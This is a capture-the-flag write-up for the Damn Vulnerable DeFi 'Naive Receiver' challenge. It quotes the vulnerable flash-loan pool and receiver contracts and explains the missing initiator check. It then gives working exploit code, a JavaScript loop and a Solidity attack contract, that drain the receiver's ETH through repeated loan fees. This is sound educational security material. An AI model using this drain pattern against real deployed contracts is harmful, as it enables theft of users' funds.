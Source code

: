 ## What is our mission
There’s a pool with 1000 ETH in balance, offering flash loans. It has a fixed fee of 1 ETH.

A user has deployed a contract with 10 ETH in balance. It’s capable of interacting with the pool and receiving flash loans of ETH.

Take all ETH out of the user’s contract. If possible, in a single transaction.

<br/>

## What are the smart contracts 
- **`NaiveReceiverLenderPool.sol`**: smart contract that includes **`flashLoan()`** function
- **`FlashLoanReceiver.sol`**: smart contract that includes **`onFlashLoan()`** function

<br/>


## Solution 

**1.** **`NaiveReceiverLenderPool.sol`** contracts **`flashLoan()`** function
``` solidity
// NaiveReceiverLenderPool.sol

function flashLoan(
        IERC3156FlashBorrower receiver,
        address token,
        uint256 amount,
        bytes calldata data
    ) external returns (bool) {
        if (token != ETH)
            revert UnsupportedCurrency();
        
        uint256 balanceBefore = address(this).balance;

        // Transfer ETH and handle control to receiver
        SafeTransferLib.safeTransferETH(address(receiver), amount);
        if(receiver.onFlashLoan(
            msg.sender,
            ETH,
            amount,
            FIXED_FEE,
            data
        ) != CALLBACK_SUCCESS) {
            revert CallbackFailed();
        }

        if (address(this).balance < balanceBefore + FIXED_FEE)
            revert RepayFailed();

        return true;
    }
```

**2.** **`FlashLoanReceiver.sol`** contracts **`onFlashLoan()`** function

``` solidity
// FlashLoanReceiver.sol

function onFlashLoan(
        address,
        address token,
        uint256 amount,
        uint256 fee,
        bytes calldata
    ) external returns (bytes32) {
        assembly { // gas savings
            if iszero(eq(sload(pool.slot), caller())) {
                mstore(0x00, 0x48f5c3ed)
                revert(0x1c, 0x04)
            }
        }
        
        if (token != ETH)
            revert UnsupportedCurrency();
        
        uint256 amountToBeRepaid;
        unchecked {
            amountToBeRepaid = amount + fee;
        }

        _executeActionDuringFlashLoan();

        // Return funds to pool
        SafeTransferLib.safeTransferETH(pool, amountToBeRepaid);

        return keccak256("ERC3156FlashBorrower.onFlashLoan");
    }

    // Internal function where the funds received would be used
    function _executeActionDuringFlashLoan() internal { }
```

**3.** The vulnarability cames from,  **`FlashLoanReceiver.sol`** contract.

**`onFlashLoan()`** function is triggered from `NaiveReceiverLenderPool.sol` when **`flashLoan()`** is called.



⚠️ But **`onFlashLoan()`** function doesn't check Who has called **`flashLoan()`** function.

This means anybody who call **`flashLoan()`** function can pass  **`FlashLoanReceiver.sol`** contract as a `receiver` paremether to **`flashLoan()`** function. This will trigger **`onFlashLoan()`** function inside **`FlashLoanReceiver.sol`**.

And **`FlashLoanReceiver`** will pay transection fee until be out of money. 😥😥😥

<br/>

Here how you can do it

```js
// test/naive-receiver/naive-receiver.challenge.js

it('Execution', async function () {
        /** CODE YOUR SOLUTION HERE */
               
        const ETH = await pool.ETH();
        
        for (let i = 0; i < 10; i++) 
        {    
            await pool.flashLoan(receiver.address, ETH, ETHER_IN_POOL, "0x");   
        }        
    });
```
As you can see, we have send 10 transection. But if you want to do this challenge **in single transection**, you will need to code smart contract.

<br/><br/>


To solve this, create a new file in side **`contracts/naive-receiver`** called **`NaiveReceiver_SolutionCode.sol`** 

``` solidity
pragma solidity ^0.8.0;

import "@openzeppelin/contracts/interfaces/IERC3156FlashLender.sol";
import "@openzeppelin/contracts/interfaces/IERC3156FlashBorrower.sol";


contract NaiveReceiver_SolutionCode
{
    // Constant variables
    address private constant ETH = 0xEeeeeEeeeEeEeeEeEeEeeEEEeeeeEeeeeeeeEEeE;
    uint256 private constant Amount = 1 ether; 

    // Immutable variables
    IERC3156FlashLender private immutable pool;
    IERC3156FlashBorrower private immutable receiver;

    // constructor
    constructor(address _pool, address _receiver) 
    {
        pool = IERC3156FlashLender(_pool);
        receiver = IERC3156FlashBorrower(_receiver);
    }

    
    function Exploit() external
    {
        for (uint i = 0; i < 10; i++) 
        {
            pool.flashLoan(receiver, ETH, Amount, "0x");    
        }
    }
}
```

Run fallowing command **`npx hardhat compile`** to compile the contract. 

<br/>

Then you can go to test file and use this code: 

```js
// test/unstoppable/unstoppable.challenge.js

it('Execution', async function () {
        /** CODE YOUR SOLUTION HERE */
               
        //Location of your compiled contract data. If you are fallowing this solition, copy bellow
        const compiled_data = require("../../artifacts/contracts/naive-receiver/NaiveReceiver_SolutionCode.sol/NaiveReceiver_SolutionCode.json");

        const abi = compiled_data.abi;
        const bytecode = compiled_data.bytecode;
    
        const factory = new ethers.ContractFactory(abi, bytecode, deployer);

        const NaiveReceiver_SolutionCode = await factory.deploy(pool.address, receiver.address)

        await NaiveReceiver_SolutionCode.Exploit();
    });
```



<br/>

## How could this exploit be prevented ?
**Share your ideas with me :)**


<br/>


## How to test it
got to ➡️ [**Damn Vulnerable Defi - Chalange #2**](https://www.damnvulnerabledefi.xyz/challenges/2.html). Clone the repository as mentioned and,

put [**basic solution code**](Basic.Solution.md) to his place 

/or

put [**single transection solution code**](Single.Transection.Solution.md) to his place

Then you can just type **`npm run naive-receiver`** 